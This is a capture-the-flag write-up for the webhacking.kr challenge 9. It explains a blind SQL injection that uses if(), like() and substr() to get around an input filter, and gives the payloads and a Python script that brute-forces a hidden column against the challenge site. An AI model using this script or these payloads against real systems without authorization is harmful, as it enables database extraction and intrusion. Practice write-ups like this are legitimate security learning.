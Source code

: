 ```yaml
---
title: Webhacking.kr 9 Write-Up
description: Another SQL injection problem.
category: web
date: 1690156800000
---
```


## Important things I learnt

_SQL if statement_

`if(A, B, C)` if A is true, returns B or returns C.

_like()_ _operator_

`like()` operator is the same as `=`.

_database()_` function

This function returns the current database’s name.

## Understanding

_1. SQL Injections Filtering_

![some text](/illustrations/webhacking.kr-9/image-1.png)

Clicking on the `3` link, I got an image like this:

![Alt text](/illustrations/webhacking.kr-9/image-2.png)

I tried some basic SQL injections but failed.

`1or1=1` , etc.

## Exploitation

I tried this SQL injection, `if(length(id)like(5),1,99)`. And it worked!

![Alt text](/illustrations/webhacking.kr-9/image-3.png)

This SQL statement does two things:

1. Finding every row with the **5**-length `id` column.
2. AND finding the value with `no=1`.

So, if I want to get `banana` on the page, I can use an SQL injection like this:

`if(length(id)like(6),2,99)`

By using this, I can get the No. 3’s length and its contents.

```python
import requests

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \
            AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'1'}
keyword = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

length = -1
result = ""

for i in range(1,200):
  url = f'https://webhacking.kr/challenge/web-09/?no=if(length(id)like({i}),3,99)'
  res = requests.get(url, headers=headers, cookies=cookies)
  if "Secret" in res.text:
    length = i
    break

print("Length", length)

for i in range(1, length+1):
  for key in keyword:
    url = f'https://webhacking.kr/challenge/web-09/?no=if(substr(id,{i},1)like({hex(ord(key))}),3,99)'
    res = requests.get(url, headers=headers, cookies=cookies)
    if "Secret" in res.text:
      result += key
      break

print(result)
```
